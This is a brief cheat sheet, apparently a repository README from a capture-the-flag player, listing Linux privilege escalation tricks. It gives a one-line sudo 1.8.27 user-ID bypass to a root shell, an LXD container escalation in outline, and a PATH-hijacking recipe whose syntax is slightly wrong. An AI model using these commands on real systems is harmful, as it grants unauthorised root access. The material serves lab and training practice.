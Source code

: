 # Privesc

A quick cheat sheet on privesc I have found while playing thm/htb etc.

## Sudo version 1.8.27

```sudo -u#-1 /bin/bash```

## LXD

Upload alpine image. Run script in exploits folder to get root

## Path hijacking

```
cd /tmp <any writeable directory

echo '/bin/bash' > <command with sudo priv>
set PATH=/tmp:PATH

run command
```


